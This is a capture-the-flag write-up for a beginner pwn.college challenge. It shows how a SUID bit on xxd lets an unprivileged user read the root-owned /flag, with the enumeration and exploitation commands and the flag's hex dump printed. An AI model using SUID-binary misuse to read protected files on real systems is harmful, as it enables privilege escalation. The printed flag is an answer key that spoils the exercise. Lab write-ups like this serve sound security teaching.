 # Challenge Name: xxd
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/xxd`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/xxd
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/xxd
```

-The `s` in `-rws` indicates it's a SUID binary.
-`xxd` runs with **root privileges**.

## 🚀 Exploitation

The `xxd`  is a powerful Linux command used to:

1.Create hex dumps of files (like hd or hexdump)

2.Revert hex dumps back to binary

3.View both hex values and ASCII side-by-side

This can easily reveal the contents of /flag.

```bash
xxd /flag
```

Output:
```
00000000: 7077 6e2e 636f 6c6c 6567 657b 6b48 624a  pwn.college{kHbJ
00000010: 3871 7a52 786f 4d53 6546 7762 6e49 3567  8qzRxoMSeFwbnI5g
00000020: 4f45 574d 3743 6f2e 6456 544e 7877 534d  OEWM7Co.dVTNxwSM
00000030: 3049 7a4d 7945 7a57 7d0a                 0IzMyEzW}.
```

      
